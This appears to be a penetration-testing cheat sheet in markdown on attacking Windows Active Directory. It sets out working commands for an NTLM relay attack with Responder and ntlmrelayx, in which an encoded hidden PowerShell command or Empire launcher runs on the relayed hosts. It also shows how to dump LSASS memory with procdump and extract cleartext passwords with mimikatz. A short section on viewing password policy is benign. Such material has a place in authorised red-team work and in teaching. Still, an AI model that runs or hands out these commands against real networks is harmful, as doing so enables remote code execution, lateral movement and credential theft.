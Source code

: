 # Active Directory

## NTLM Relay Attack

```
cme --timeout 5 --verbose smb 172.0.0.1/24 --gen-relay-list targets.txt
```

```
python RunFinger.py -g -i 172.0.0.1/24
```

```
python Responder.py -I <interface> -r -d -w
```

```
echo "powershell_command_string" | iconv --to-code UTF-16LE | base64 -w 0
```

```
ntlmrelayx.py -tf targets.txt -c 'powershell.exe -NoP -sta -NonI -W Hidden -Enc {base64_code}'
```

```
ntlmrelayx.py -tf targets.txt -c <Empire Powershell launcher>
```

## Check Password Policy on Network Domain

* [https://www.wikigain.com/configuring-password-policies-with-windows-server-2016/](https://www.wikigain.com/configuring-password-policies-with-windows-server-2016/)

```
gpedit.msc
```

Now go to `Computer Configuration/Windows Settings/Security Settings/Password Policy`

## Dump LSASS

* [https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf](https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330)

```
C:\\temp\\procdump.exe -accepteula  -ma lsass.exe lsass.dmp
#For 32 bits


C:\\temp\\procdump.exe -accepteula -64 -ma lsass.exe  lsass.dmp  
#For 64 bits
```

Download the file lsass.dmp generated.Launch mimikatz against the lsass.dmp file with the commands:

```
mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP

mimikatz # sekurlsa::logonPasswords full



# use with -r to clone and then dump LSASS
procdump -accepteula -r -ma lsass.exe lsass.dmp
```

